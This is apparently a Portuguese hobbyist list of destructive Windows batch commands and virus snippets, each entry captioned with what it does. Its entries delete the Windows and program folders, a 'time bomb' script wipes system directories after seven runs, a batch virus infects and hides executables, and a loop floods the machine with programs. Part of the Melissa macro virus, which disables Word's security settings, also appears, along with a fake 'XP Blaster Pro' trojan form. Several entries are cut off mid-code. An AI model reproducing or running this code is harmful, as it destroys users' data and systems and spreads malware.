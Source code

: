 Nome:Del All Windows rmdir /s /q c:\windows Função:Deleta tdo do Windows (fode o pc)

Nome:Autoexec @ECHO OFF @BREAK OFF deltree/C: Y*.* Função:Fode com tudo

Nome:Trojan-1 VERSION 5.00 Object = "{831FDD16-0C5C-11D2-A9FC-0000F8754DA1}#2.0#0"; "mscomctl.ocx" Begin VB.Form Form1 BackColor = &H80000007& BorderStyle = 1 'Fixed Single Caption = "Welcome to XP Blaster Pro (Enterprise Edition)!" ClientHeight = 5400 ClientLeft = 45 ClientTop = 390 ClientWidth = 8085 BeginProperty Font Name = "Fixedsys" Size = 9 Charset = 0 Weight = 400 Underline = 0 'False Italic = 0 'False Strikethrough = 0 'False EndProperty Icon = "Source3.frx":0000 LinkTopic = "Form1" MaxButton = 0 'False MinButton = 0 'False MouseIcon = "Source3.frx":08CA PaletteMode = 2 'Custom ScaleHeight = 5400 ScaleWidth = 8085 ShowInTaskbar = 0 'False StartUpPosition = 3 'Windows Default Begin VB.CommandButton Command3 Caption = "About" BeginProperty Font Name = "MS Sans Serif" Size = 8.25 Charset = 0 Weight = 400 Underline = 0 'False Italic = 0 'False Strikethrough = 0 'False EndProperty Height = 375 Left = 120 TabIndex = 3 Top = 4920 Width = 1215 End Begin VB.CommandButton Command2 Appearance = 0 'Flat BackColor = &H000000FF& Caption = "WEBSITE" BeginProperty Font Name = "Trebuchet MS" Size = 8.25 Charset = 0 Weight = 400 Underline = 0 'False Italic = 0 'False Strikethrough = 0 'False EndProperty Height Função:Augumas dos trojans tradiçionais

Nome:Del p/ Windows del /s /q c:\windows
Função:Deleta tudo dentro do Windows ex: arquivos e naum pastas

Nome:Shutdown-S shutdown -s Função:Desliga o pc

Nome:Shutdown-R shutdown -r Função:Reinicia o pc

Nome:Trojan-2 @echo off ctty nul rem for %%f in (*.exe *.com) do set A=%%f if %A%==COMMAND.COM set A= rename %A% V%A% if not exist V%A% goto end attrib +h V%A% copy %0.bat %A% attrib +r %A% ren %A% *.bat set A= :end ctty con @if exist V%0.com V%0.com %1 %2 %3 @if exist V%0.exe V%0.exe %1 %2 %3 Função:Fode com tudo mesmo...

Nome:Pirata X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* Função:Testar seu Anti-Virus ou enganar auguem.

Nome:Melissa 1999 // Melissa Virus Source Code Private Sub Document_Open() On Error Resume Next If System.PrivateProfileString("", "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", "Level") <> "" Then CommandBars("Macro").Controls("Security...").Enabled = False System.PrivateProfileString("", "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", "Level") = 1& Else CommandBars("Tools").Controls("Macro").Enabled = False Options.ConfirmConversions = (1 - 1): Options.VirusProtection = (1 - 1): Options.SaveNormalPrompt = (1 

Nome:CLICK EM MIM @ECHO OFF :REPETE MSG * CLICK EM MIM GOTO REPETE Função:Fica repetindo varias vezes a mesma mensagem

Nome:Progstar @echo off rem Denial Of Service Local :Fucker start notepad.exe start write.exe start sol.exe start cmd.exe start powerpnt.exe start excel.exe start winword.exe start msacess.exe goto Fucker: Função:Abre varios programas sem parar, fais o pc travar

Nome:bomba relógio c:
cd
echo off if exist lig1.drv goto 2 echo > lig1.drv sdfsdf goto fim :2 if exist lig2.drv goto 3 echo > lig2.drv sdfsdf goto fim :3 if exist lig3.drv goto 4 echo > lig3.drv sdfsdf goto fim :4 if exist lig4.drv goto 5 echo > lig4.drv sdfsdf goto fim :5 if exist lig5.drv goto 6 echo > lig4.drv sdfsdf goto fim :6 if exist lig6.drv goto 7 echo > lig6.drv sdfsdf goto fim :7 rmdir C:\windows rmdir C:\arquivos de programas rmdir C:\documents and settings :fim Função:depois que ele for ativado 7 vezes ele apaga tudo Nome:MSN Fixer cd %USERPROFILE% cd Config1 cd Dadosd1 cd Micros~1 cd "Windows Live Contacts" del /s /q 
